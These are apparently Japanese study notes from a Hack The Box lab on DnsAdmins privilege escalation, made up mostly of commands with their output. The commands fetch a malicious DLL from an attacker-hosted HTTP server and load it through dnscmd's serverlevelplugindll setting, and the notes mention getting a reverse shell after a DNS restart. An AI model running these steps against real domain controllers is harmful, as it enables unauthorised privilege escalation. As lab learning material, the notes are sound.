 ローカルHTTPサーバーの起動
```shell-session
snowyowl644@htb[/htb]$ python3 -m http.server 7777
```

ターゲットへ作成したDLLをダウンロード
```powershell-session
PS C:\htb>  wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

非特権ユーザーとしてのDLLローディング
- 非特権ユーザーとして dnscmd ユーティリティを使用してカスタムDLLをロードしようとするとどうなるか見てみるけど、アクセスは許可されない
```cmd-session
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```

DnsAdminの権限を持っているかの確認
```powershell-session
C:\htb> Get-ADGroupMember -Identity DnsAdmins

distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109    
```

**DnsAdminsメンバーとしてのDLLローディング**
- カスタムDLLへのフルパスを指定する必要ある
- DnsAdminsグループのメンバーは、レジストリキーに対する直接の権限は持っていませんが、dnscmd ユーティリティのみを使用できる
```cmd-session
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

DNSが再起動する必要がある
- 悪意のあるプラグインのパスを含むレジストリ設定が構成され、ペイロードが作成されたら、DNSサービスが次に開始されるときにDLLがロードされる
- DnsAdminsグループのメンバーシップはDNSサービスを再起動する権限を与えませんが、システム管理者がDNS管理者に許可することは考えられる
- DNSサービスを再起動した後（もし私たちのユーザーがこのレベルのアクセス権を持っている場合）、カスタムDLLを実行してユーザーを追加（このケースの場合）するか、カスタムDLLが接続を返すように作られていればリバースシェルを取得できるはず

DNSを再起動する権限を持っているかの確認
- ユーザーのSIDを取得して、sc コマンドを使用してサービスに対する権限を確認する
```cmd-session
C:\htb> wmic useraccount where name="netadm" get sid

SID
S-1-5-21-669053619-2741956077-1013132368-1109
```

